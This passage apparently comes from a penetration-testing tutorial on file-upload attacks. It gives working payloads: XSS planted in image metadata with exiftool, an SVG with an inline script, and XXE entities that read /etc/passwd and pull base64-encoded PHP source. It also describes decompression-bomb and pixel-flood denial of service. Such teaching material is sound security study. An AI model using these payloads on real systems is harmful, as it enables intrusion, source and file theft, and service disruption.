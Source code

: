 The most basic example is when a web application allows us to upload HTML files. If the target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines. Another example of XSS attacks is web applications that display an image's metadata after its upload. For example:
```console
zero@pio$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' Dog.png
zero@pio$ exiftool Dog.png
...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
...
```

When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. Furthermore, if we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed. XSS attacks can also be carried with **SVG** images. **Scalable Vector Graphics** (**SVG**) images are XML-based, and they describe 2D vector graphics. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert("window.origin");</script>
</svg>
```

## XXE 

Similar attacks can be carried to lead to XXE exploitation. The following example can be used for an SVG image that leaks the content of `/etc/passwd`{: .filepath}:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

 For File Upload exploitation, it may allow us to locate the upload directory, identify allowed extensions, or find the file naming scheme, which may become handy for further exploitation. To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

## DoS 

We can utilize a **Decompression Bomb** with file types that use data compression, like ZIP archives. Another possible DoS attack is a **Pixel Flood** attack with some image files that utilize image compression, like JPG or PNG. We can create any JPG image file with any image size (e.g. `500x500`), and then manually modify its compression data to say it has a size of (`0xffff x 0xffff`), which results in an image with a perceived size of **4 Gigapixels**.
